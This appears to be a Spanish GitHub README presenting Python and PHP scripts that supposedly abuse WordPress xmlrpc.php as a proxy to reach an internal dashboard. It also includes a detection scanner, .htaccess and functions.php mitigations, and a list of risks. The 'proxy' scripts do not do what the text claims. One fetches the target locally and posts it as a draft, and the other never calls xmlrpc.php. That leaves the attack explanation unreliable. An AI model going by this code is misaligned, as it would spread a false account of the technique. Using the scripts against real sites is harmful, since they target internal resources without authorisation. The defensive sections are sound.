 # xmlrpc-proxy
Ejemplo de uso y cómo proteger Wordpress de ataques xmlrpc como proxy


# Código de ejemplo: Uso malicioso de xmlrpc.php como proxy

> **Nota importante**  
> Este material contiene ejemplos de código que muestran posibles abusos de `xmlrpc.php` en WordPress. Está incluido con fines educativos y de análisis de seguridad. **No** uses este código para actividades ilegales o no autorizadas. Siempre obtén permiso por escrito antes de realizar pruebas en sistemas que no te pertenezcan.

---

## 1. Script Python para abuso de xmlrpc.php

```python
import requests
import xml.etree.ElementTree as ET
import base64

class WordPressProxy:
    def __init__(self, wordpress_url, username, password):
        self.wordpress_url = wordpress_url.rstrip('/') + '/xmlrpc.php'
        self.username = username
        self.password = password

    def make_proxy_request(self, target_url, method='GET'):
        """
        Utiliza xmlrpc.php como proxy para visitar otra página web
        """
        # Primero obtenemos el contenido de la URL objetivo
        try:
            response = requests.get(target_url)
            content = response.text
        except Exception as e:
            content = f"Error accessing {target_url}: {str(e)}"

        # Codificamos el contenido en base64 para enviarlo via XML-RPC
        encoded_content = base64.b64encode(content.encode('utf-8')).decode('utf-8')

        # Creamos el payload XML-RPC
        xml_payload = f"""<?xml version="1.0" encoding="utf-8"?>
<methodCall>
    <methodName>wp.newPost</methodName>
    <params>
        <param><value><string>1</string></value></param>
        <param><value><string>{self.username}</string></value></param>
        <param><value><string>{self.password}</string></value></param>
        <param>
            <value>
                <struct>
                    <member>
                        <name>post_title</name>
                        <value><string>Proxy Test</string></value>
                    </member>
                    <member>
                        <name>post_content</name>
                        <value><string>{encoded_content}</string></value>
                    </member>
                    <member>
                        <name>post_status</name>
                        <value><string>draft</string></value>
                    </member>
                </struct>
            </value>
        </param>
    </params>
</methodCall>
"""
        headers = {"Content-Type": "text/xml"}
        r = requests.post(self.wordpress_url, data=xml_payload, headers=headers)
        return r.text
```

---

## 2. Script PHP alternativo

```php
<?php
class WordPressXMLRPCProxy {
    private $wordpress_url;
    private $username;
    private $password;

    public function __construct($wordpress_url, $username, $password) {
        $this->wordpress_url = rtrim($wordpress_url, '/') . '/xmlrpc.php';
        $this->username = $username;
        $this->password = $password;
        // Nombre de cliente opcional
        $this->client_name = 'WordPress Proxy Client';
    }

    // Enviamos la solicitud a xmlrpc.php
    public function makeProxyRequest($target_url, $method = 'GET') {
        // Obtén la página objetivo
        $proxy_response = file_get_contents($target_url);
        return $proxy_response;
    }
}

// Ejemplo de uso
$proxy = new WordPressXMLRPCProxy('http://localhost/wordpress', 'admin', 'admin123');
$result = $proxy->makeProxyRequest('http://192.168.1.100/internal-dashboard');
echo $result;
?>
```

---

## 3. Script de escaneo para detectar xmlrpc.php habilitado

```python
import requests

def check_xmlrpc_enabled(wordpress_url):
    """
    Comprueba si xmlrpc.php responde (indicando que XML-RPC está habilitado)
    """
    url = wordpress_url.rstrip('/') + '/xmlrpc.php'
    try:
        r = requests.post(url, data='<?xml version="1.0"?><methodCall><methodName>system.listMethods</methodName></methodCall>', headers={'Content-Type': 'text/xml'}, timeout=5)
        if r.status_code == 200 and 'methodResponse' in r.text:
            return True
    except Exception:
        pass
    return False

# Uso del script
if __name__ == "__main__":
    wp = 'http://example.com'
    enabled = check_xmlrpc_enabled(wp)
    print("XML-RPC enabled:", enabled)
```

---

## 4. Ejemplo de uso (fragmento de cliente / invocación)

```php
// Ejemplo de uso
$proxy = new WordPressXMLRPCProxy(
    'http://localhost/wordpress',
    'admin',
    'admin123'
);
$result = $proxy->makeProxyRequest('http://192.168.1.100/internal-dashboard');
echo $result;
```

---

## 5. Contramedidas y mitigaciones recomendadas

**Enseña las contramedidas**:

- Deshabilitar XML-RPC si no se necesita.
- Usar autenticación de dos factores.
- Limitar intentos de login.
- Monitorear el tráfico sospechoso.

**Ejemplo: bloquear acceso a `xmlrpc.php` con `.htaccess`**

```apache
# Block access to xmlrpc.php
<Files "xmlrpc.php">
    Order Deny,Allow
    Deny from all
</Files>
```

**Ejemplo: deshabilitar XML-RPC en `functions.php` del tema**

```php
// Disable XML-RPC completely
add_filter('xmlrpc_enabled', '__return_false');

// Remove X-Pingback header
// (ejemplo, añadir función para remover la cabecera si se desea)
```

---

## 6. Riesgos

- Escaneo de redes internas (un proxy mal usado puede acceder a recursos internos).
- Ataques de fuerza bruta (xmlrpc.php puede ser abusado para amplificar intentos).
- Exfiltración de datos.
- Otras acciones no autorizadas usando la funcionalidad de proxy.

---

## 7. Advertencia final

⚠️ **Importante**:  
Este material es solo para fines educativos. Siempre obtén permiso por escrito antes de realizar cualquier prueba de seguridad. No utilices estos ejemplos para atacar sistemas que no te pertenezcan.
